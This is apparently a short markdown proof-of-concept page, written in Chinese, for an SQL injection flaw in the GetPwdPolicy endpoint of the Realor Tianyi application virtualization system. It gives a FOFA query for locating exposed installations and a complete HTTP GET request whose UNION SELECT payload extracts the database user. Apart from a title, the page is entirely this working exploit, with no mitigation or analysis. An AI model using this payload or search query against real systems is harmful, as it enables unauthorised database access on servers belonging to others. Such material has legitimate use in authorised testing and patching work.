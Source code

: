 # 瑞友天翼应用虚拟化系统GetPwdPolicy存在SQL注入漏洞

瑞友天翼应用虚拟化系统GetPwdPolicy存在SQL注入漏洞

## fofa

```javascript
app="REALOR-天翼应用虚拟化系统"
```

## poc

```javascript
GET /RAPAgent.XGI?CMD=GetPwdPolicy&User=1%27+UNION+ALL+SELECT+NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%280x7e%2C%28SELECT+user()%29%2C0x7e%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--+- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: keep-alive
```

